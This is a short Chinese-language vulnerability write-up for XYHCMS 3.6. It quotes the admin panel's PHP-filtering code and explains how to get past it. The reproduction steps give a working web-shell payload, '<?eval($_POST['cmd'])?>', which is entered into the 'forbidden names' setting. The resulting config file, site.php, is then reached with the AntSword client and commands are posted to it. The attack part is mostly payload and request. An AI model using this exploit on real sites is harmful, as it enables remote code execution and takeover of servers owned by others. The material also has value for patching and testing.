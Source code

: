 XYHCMS 3.6 后台代码执行漏洞（二）
=================================

一、漏洞简介
------------

二、漏洞影响
------------

XYHCMS 3.6

三、复现过程
------------

### 漏洞分析

`/App/Manage/Controller/SystemController.class.php`

    public function site() {
            if (IS_POST) {
                $data = I('config', array(), 'trim');
                //<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>
                $preg_param = '/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>/is';
                foreach ($data as $key => $val) {
                    if (stripos($val, '<?php') !== false) {
                        $data[$key] = preg_replace('/<\?php(.+?)\?>/i', '', $val);
                    }
    ————————————————————————————————————————————————————————————————————————————
                    if (stripos($val, '<script') !== false && stripos($val, 'php') !== false) {
                        $data[$key] = preg_replace('/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>/i', '', $val);
                    }
                    if (stripos($data[$key], '<?php') !== false || preg_match($preg_param, $data[$key])) {
                        $this->error('禁止输入php代码');
                    }
                }
                ————————————————————————————————————————————————————————————————————————————

### 漏洞复现

1.  进入后台

2.  系统设置-\>网站设置-\>会员配置-\>禁止使用的名称    ![1.png](resource/XYHCMS3.6后台代码执行漏洞(二)/media/rId26.png){width="5.833333333333333in"
    height="2.553546587926509in"}

-   <?eval($_POST['cmd'])?>

3.  访问漏洞文件,蚁剑连接

-   `http://localhost/App/Runtime/Data/config/site.php`

    POST数据：`cmd=phpinfo();`
